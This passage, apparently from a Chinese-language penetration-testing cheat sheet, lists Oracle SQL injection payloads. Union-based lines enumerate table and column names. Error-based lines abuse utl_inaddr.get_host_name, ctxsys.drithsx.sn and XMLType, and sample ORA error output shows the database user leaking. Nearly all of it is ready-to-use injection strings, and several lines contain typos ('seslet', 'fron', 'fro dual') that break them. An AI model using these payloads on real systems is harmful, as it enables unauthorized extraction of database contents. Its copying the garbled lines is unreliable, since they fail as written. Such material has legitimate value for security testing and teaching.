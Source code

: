 ```sql
' union select null, null,(select table_name from user_tables where rownum=1),null from dual -- 
' union select null,null (seslet table_name from user_tables where rownum=1 and table_name <> '已知表名'),null fron dual --

```

* 字段名位于表user_tab_columns内：

```
' union select null,(select column_name from user_tab_columns where table_name="表名" and rownum=1),null from dual --
' union select null ,(select column_name fron user_tab_columns where table_name="表名" and column_name="字段名" and rownum=1) null from dual -- 
```

## 报错注入

使用报错注入需要使用1=(报错语句函数)，1>(报错语句)使用运算符的方式进行报错注入（MySQL仅使用函数即可成功）

* utl_inaddr.get_host_name()

```sql
'and 1=utl_inaddr.get_host_name((select user fro dual)) -- 
```

* ctxsys.drithsx.sn()

```sql
' and 1=ctxsys.drithsx.sn(1,(select user from dual)) --

SQL> select user from dual where 1=ctxsys.drithsx.sn(1,(select user from dual));

第 1 行出现错误:
ORA-20000: Oracle Text 错误:
DRG-11701: 主题词表 SCOTT 不存在
ORA-06512: 在 "CTXSYS.DRUE", line 160
ORA-06512: 在 "CTXSYS.DRITHSX", line 540
ORA-06512: 在 line 1
```

* 使用XMLType()进行报错注入

```sql
' and (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null --

SQL> select user from dual where (select upper(XMLType(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null;

第 1 行出现错误:
ORA-31011: XML 语法分析失败
ORA-19202: XML 处理
LPX-00110: Warning: 无效的 QName ":SCOTT" (不是名称)
Error at line 1
时出错
ORA-06512: 在 "SYS.XMLTYPE", line 310
ORA-06512: 在 line 1
```
